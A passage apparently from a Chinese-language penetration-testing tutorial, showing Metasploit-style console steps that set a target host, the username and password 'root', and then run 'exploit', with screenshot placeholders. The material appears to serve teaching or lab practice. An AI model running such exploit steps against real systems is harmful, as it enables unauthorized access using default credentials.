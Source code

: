 set RHOST www.test.ichunqiu

set PASSWORD root

set USERNAME root
</code></pre><p><img src="picture/img (45).png" alt="Alt text"></p>
<p>开始执行漏洞利用：</p>
<pre><code>exploit
</code></pre><p><img src="picture/img (46).png" alt="Alt text"></p>